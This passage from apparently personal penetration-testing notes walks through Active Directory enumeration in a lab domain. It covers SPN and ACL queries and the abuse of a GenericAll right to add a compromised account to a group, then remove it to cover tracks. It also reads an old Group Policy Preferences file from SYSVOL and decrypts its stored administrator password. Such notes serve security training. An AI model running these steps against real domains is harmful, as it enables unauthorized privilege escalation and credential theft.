Get-AllSPNs
```

In the current domain this reveals quite a few:

```powershell
PS C:\Users\stephanie> Get-AllSPNs
TERMSRV/DC1
TERMSRV/DC1.corp.com
Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC1.corp.com
ldap/DC1.corp.com/ForestDnsZones.corp.com
...
TERMSRV/CLIENT76
TERMSRV/CLIENT76.corp.com
RestrictedKrbHost/CLIENT76
HOST/CLIENT76
RestrictedKrbHost/CLIENT76.corp.com
HOST/CLIENT76.corp.com
```

Once SPNs are located a machine's IP address can be resolved using the command:

```powershell
Resolve-IPAddress "machine"
```

For example to find the IP of `web04` the command and output would be:

```powershell
PS C:\Users\stephanie> Resolve-IPAddress web04.corp.com

ComputerName   IPAddress
------------   ---------
web04.corp.com 192.168.216.72
```

* Note the machine name and not the SPN should be used in the lookup

#### SetSPN

Technically `setspn` could be iteratively called on all usernames to enumerate all SPNs in the domain. It is easier to use PowerShell though if that is an option.

## ACLs

[Access Control Lists](../#access-control-lists) (ACLs) determine access permissions within an AD environment. Every object has an ACL composed of one or more Access Control Entries (ACEs).&#x20;

### Object's ACL

#### PowerShell

[Enumerate-AD](manual.md#enumerate-a-d) allows the retrieval of an objects ACL via the command:

```powershell
Get-ObjectACL
```

This can be used with any Enumerate-AD objects (user, group, computer, etc.). For example to get the ACL for the `web04` machine the command would be:

```powershell
Get-ADComputer web04 | Get-ObjectACL
```

This would result in the output of an array of ACEs composing the ACL. Each entry looks like this:

```powershell
PS C:\Users\stephanie> Get-ADComputer web04 | Get-ObjectACL

ObjectName             : web04
ObjectDN               : CN=web04,CN=Computers,DC=corp,DC=com
ObjectGUID             : 2e01aeed-b4a6-40c4-9753-dc4e309f9021
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1112
ActiveDirectoryRights  : WriteProperty
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
ObjectAceType          : 5f202010-79a5-11d0-9020-00c04fc2d4cf
InheritedObjectAceType : bf967a86-0de6-11d0-a285-00aa003049e2
BinaryLength           : 72
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 32
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-512
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
...
```

Understanding the output can be a bit confusing. The `.Object...` properties all indicate the owner of the ACE, i.e. who/what the ACE applies to. In this case it is `web04`.

The `.ActiveDirectoryRights` property contains the rights granted by the ACE. In this case it is `WriteProperty`.

The final piece of the puzzle is who/what is granted the rights (`WriteProperty`) on the machine web04. This is contained within the `.SecurityIdentifier` property. This property will usually be a SID which will need to be translated. This can be done with the `ConvertFrom-SID` cmdlet:

```powershell
PS C:\Users\stephanie> ConvertFrom-SID S-1-5-21-1987370270-658905905-1781884369-512
CORP\Domain Admins
```

In this case it turns out the the `Domain Admins` group is being granted `WriteProperty` rights on `web04`.

### Finding Particular Access Rights

Some [access rights](../#permission-types) are more helpful than others. It can be helpful to just search the domain for a particular right (e.g. `GenericAll`).

#### PowerShell

The same [Enumerate-AD](manual.md#enumerate-a-d) command from [above](manual.md#powershell-10) can be used with a modified pipeline to search a particular access right as shown below:


```powershell
 Get-ADUser | ForEach-Object { $_ | Get-ObjectACL } | Where-Object { $_.ActiveDirectoryRights -contains "GenericAll" }
```


* This will work with any of the `Enumerate-AD`'s `Get-AD...` commands

This will output all User ACEs that contain `GenericAll`, though the output may be a bit overwhelming so it can be piped into a `Select-Object` cmdlet:


```powershell
 Get-ADUser | ForEach-Object { $_ | Get-ObjectACL -ConvertSID } | Where-Object { $_.ActiveDirectoryRights -contains "GenericAll" } | Select-Object ObjectName,ObjectSID,SecurityIdentifier,SecurityIdentifierName,ActiveDirectoryRights
```


* Any of the properties seen in the output [above](manual.md#powershell-10) can be used with `Select-Object`

For example to see everything to which members of the Management Department group were granted `GenericAll` rights the command and output would be:

```powershell
Get-ADGroup "Management Department" | ForEach-Object { $_ | Get-ObjectACL } | Where-Object { $_.ActiveDirectoryRights -contains "GenericAll" } | Select-Object ObjectName,ObjectSID,SecurityIdentifier,ActiveDirectoryRights

ObjectName            ObjectSID                                     SecurityIdentifier                            ActiveDirectoryRights
----------            ---------                                     ------------------                            ---------------------
Management Department S-1-5-21-1987370270-658905905-1781884369-1126 S-1-5-21-1987370270-658905905-1781884369-512             GenericAll
Management Department S-1-5-21-1987370270-658905905-1781884369-1126 S-1-5-21-1987370270-658905905-1781884369-1104            GenericAll
Management Department S-1-5-21-1987370270-658905905-1781884369-1126 S-1-5-32-548                                             GenericAll
Management Department S-1-5-21-1987370270-658905905-1781884369-1126 S-1-5-18                                                 GenericAll
Management Department S-1-5-21-1987370270-658905905-1781884369-1126 S-1-5-21-1987370270-658905905-1781884369-519             GenericAll
```

#### Danger of Misconfigured ACLs

Consider the example [above](manual.md#powershell-11) of getting the `[DomainGroup]` object for the Management Department. The pipeline can be slightly modified to get the name of each object with GenericAll access to the Management Department group as follows:


```powershell
Get-ADGroup "Management Department" | ForEach-Object { $_ | Get-ObjectACL } | Where-Object { $_.ActiveDirectoryRights -contains "GenericAll" } | ForEach-Object { $_.SecurityIdentifier.Value | ConvertFrom-SID }
```


1. Gets the `[DomainGroup]` object for Management Department
2. Gets the ACL the `[DomainGroup]`
3. Filters the output to only ACLs containing `GenericAll` rights
4. Gets the `.SecurityIdentifier` property (type `[SecurityIdentifier]`) of each ACE and converts it to a username via `ConvertFrom-SID`

When run it reveals something interesting:

```powershell
PS C:\Users\stephanie>  Get-ADGroup "Management Department" | ForEach-Object { $_ | Get-ObjectACL } | Where-Object { $_.ActiveDirectoryRights -contains "GenericAll" } | ForEach-Object { $_.SecurityIdentifier.Value | ConvertFrom-SID }
CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```

Recall that for these examples the attacker is assumed to have compromised the user account `stephanie`. Due to a misconfiguration this user appears to have `GenericAll` rights to the group. Recall that `stephanie` is not a member of this group, in fact it only has one member:

```powershell
PS C:\Users\stephanie> Get-ADGroup "Management Department" | Select Members

Members
-------
{CN=jen,CN=Users,DC=corp,DC=com}
```

But the attacker could add their compromise stephanie account to the group via net commands:

```sh
net group "Management Department" stephanie /add /domain
```

When run it indicates the request will be processed on a domain controller:

```powershell
PS C:\Users\stephanie> net group "Management Department" stephanie /add /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

After running, it seems `stephanie` is now a member of the Management Department group:

```powershell
PS C:\Users\stephanie> Get-ADGroup "Management Department" | Select Members | ForEach-Object { $_ }

Members
-------
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```

The `.Members` can also be piped into a Get-ADUser command if desired:


```powershell
(Get-ADGroup "Management Department").Members | ForEach-Object { $_.ToString() | Get-ADUser }
```


The same can be achieved with the Enumerate-AD `Get-ADGroupUsers` cmdlet:

```powershell
Get-ADGroupUsers "groupname"
```

This would also show the newly added user `stephanie`:

```powershell
PS C:\Users\stephanie> Get-ADGroupUsers "Management Department" | Select Name,SID,MemberOf

Name      SID                                           MemberOf
----      ---                                           --------
jen       S-1-5-21-1987370270-658905905-1781884369-1124 {CN=Management Department,DC=corp,DC=com}
stephanie S-1-5-21-1987370270-658905905-1781884369-1104 {CN=Management Department,DC=corp,DC=com, CN=Sales Department,DC=corp,DC=com}
```

Should the attacker wish, they could cover their steps by removing stephanie from the Management Department group with the command:

```sh
net group "Management Department" stephanie /del /domain
```

```powershell
PS C:\Users\stephanie> net group "Management Department" stephanie /del /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.

PS C:\Users\stephanie> Get-ADGroupUsers "Management Department" | Select Name,SID,MemberOf

Name SID                                           MemberOf
---- ---                                           --------
jen  S-1-5-21-1987370270-658905905-1781884369-1124 {CN=Management Department,DC=corp,DC=com}
```

This example was very convenient and simple but it begins to illustrate the risks of misconfigured AD environments.

## Domain Shares

There will often be useful information in shared folders on the domain. It is helpful to be able to enumerate them quickly.

### All Shares on Domain

#### PowerShell

[Enumerate-AD](manual.md#enumerate-a-d) offers a command to find all shares on the domain:

```powershell
Find-DomainShare
```

The caller can also specify a particular share to look up with a DNS hostname such as:

```powershell
Find-DomainShare "FILES04.corp.com"
```

If no hostname is supplied, `Find-Domain` share first calls `Get-ADComputer` and then checks each machine for shares.

There is also the option to check access to a share via the `-CheckShareAccess` flag:

```powershell
Find-DomainShare -CheckShareAccess
```

This will list all shares on the domain that the current user has access to.

#### Example

When used in the example situation the user finds several interesting shares accessible to the current user (`stephanie`):

```powershell
PS C:\Users\stephanie> Find-DomainShare -CheckShareAccess

Name           Type Remark                 ComputerName
----           ---- ------                 ------------
NETLOGON          0 Logon server share     DC1.corp.com
SYSVOL            0 Logon server share     DC1.corp.com
docshare          0 Documentation purposes FILES04.corp.com
Users             0                        FILES04.corp.com
ADMIN$   2147483648 Remote Admin           client74.corp.com
C$       2147483648 Default share          client74.corp.com
ADMIN$   2147483648 Remote Admin           client75.corp.com
C$       2147483648 Default share          client75.corp.com
```

Of these, the most interesting is probably `SYSVOL` on the domain controller.

The system volume ([`SYSVOL`](https://learn.microsoft.com/en-us/archive/technet-wiki/24160.active-directory-back-to-basics-sysvol)) is a special directory on each DC. By default, the `SYSVOL` folder is mapped to `%SystemRoot%\SYSVOL\Sysvol\domain-name` on the domain controller and every domain user has access to it. It is made up of several folders with one being shared and referred to as the `SYSVOL` share. The folders are used to store:

* **Group Policy templates (GPTs)**, which are replicated via SYSVOL replication. The Group Policy container (GPC) is replicated via Active Directory replication.
* **Scripts**, such as startup scripts that are referenced in a GPO

To begin checking what is stored in Sysvol the attacker can use `ls` in PowerShell (which is actually an alias for `Get-ChildItem` in PowerShell):

```powershell
PS C:\Users\stephanie> Get-ChildItem -Force -Path \\DC1.corp.com\SYSVOL\corp.com


    Directory: \\DC1.corp.com\SYSVOL\corp.com


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hsl          9/2/2022   4:11 PM                DfsrPrivate
d-----         9/21/2022   1:11 AM                Policies
d-----          9/2/2022   4:08 PM                scripts


PS C:\Users\stephanie> Get-ChildItem -Force -Path \\DC1.corp.com\SYSVOL\corp.com\Policies\


    Directory: \\DC1.corp.com\SYSVOL\corp.com\Policies


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:13 AM                oldpolicy
d-----          9/2/2022   4:08 PM                {31B2F340-016D-11D2-945F-00C04FB984F9}
d-----          9/2/2022   4:08 PM                {6AC1786C-016F-11D2-945F-00C04fB984F9}


PS C:\Users\stephanie> Get-ChildItem -Force -Path \\DC1.corp.com\SYSVOL\corp.com\Policies\oldpolicy\


    Directory: \\DC1.corp.com\SYSVOL\corp.com\Policies\oldpolicy


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/21/2022   1:13 AM            742 old-policy-backup.xml
```

In a normal attack all paths would be explored, but for the sake of this example the attacker drilled down into `\Policies` directly. Inside was the `old-policy-backup.xml` file. Due to the naming of the folder and the name of the file itself, it appears that this is an older domain policy file. This is a common artifact on domain shares as system administrators often forget them when implementing new policies. In this particular case, the XML file describes an old policy (helpful for learning more about the current policies) and an encrypted password for the local built-in Administrator account:

```powershell
PS C:\Users\stephanie> type \\DC1.corp.com\SYSVOL\corp.com\Policies\oldpolicy\old-policy-backup.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups   clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User   clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
          name="Administrator (built-in)"
          image="2"
          changed="2012-05-03 11:45:20"
          uid="{253F4D90-150A-4EFB-BCC8-6E894A9105F7}">
    <Properties
          action="U"
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
          changeLogon="0"
          noChange="0"
          neverExpires="0"
          acctDisabled="0"
          userName="Administrator (built-in)"
          expires="2016-02-10" />
  </User>
</Groups>
```

The encrypted password could be extremely valuable. Historically, system administrators often changed local workstation passwords through [Group Policy Preferences](../#group-policy-preferences) (GPP).

However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been [posted](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2) on MSDN. With that in mind the [`gpp-encrypt`](https://www.kali.org/tools/gpp-decrypt/) tool on Kali can be used to decrypt the password:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

When used, the password is revealed:

```shell-session
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```

## Account Policies

### Current Account

#### Net Commands

The `accounts` subcommand can be used to check the current user's accout policies:

```sh
net accounts
```

The output reveals things such as password lockouts and reset policies:

```shell-session
PS C:\Users\jeff> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```

## General Enumeration Steps

The tools above should be used to follow a rough framework when enumerating an AD environment. The assumption is made that the attacker has access to a domain-connected account/machine to use as a base from which to do their enumeration.

1. Obtain domain info (includes finding domain controllers)
   * Enumerate-AD's `Get-PDC` and `Get-ADDomains` cmdlets
   * PowerView's `Get-DomainController` and `Get-Domain` cmdlets
2. Enumerate Users
   * Enumerate-AD's `Get-ADUsers` cmdlet
   * PowerView's `Get-DomainUsers` cmdlet
3. Enumerate Groups
   * Enumerate-AD's `Get-ADGroups` cmdlet
   * PowerView's `Get-DomainGroups` cmdlet
4. Enumerate Computers/Machines
   * Enumerate-AD's `Get-ADComputers` cmdlet
   * PowerView's `Get-DomainComputers` cmdlet
   * Alternatively can be done with [SPN Enumeration](manual.md#all-spns-in-domain)
5. Enumerate the current user's admin access
   * PowerView's `Find-LocalAdminAccess` cmdlet
6. Enumerate the current sessions in the domain to discover who is singed in and where
   * Sysinternals `PsLoggedOn` applet
   * PowerView's `Get-NetSession` on older systems
7. Look at ACLs in the domain paying particular attention to GenericAll permissions
8. Look for domain shares and parse through them to see if any interesting information was left accidentally exposed
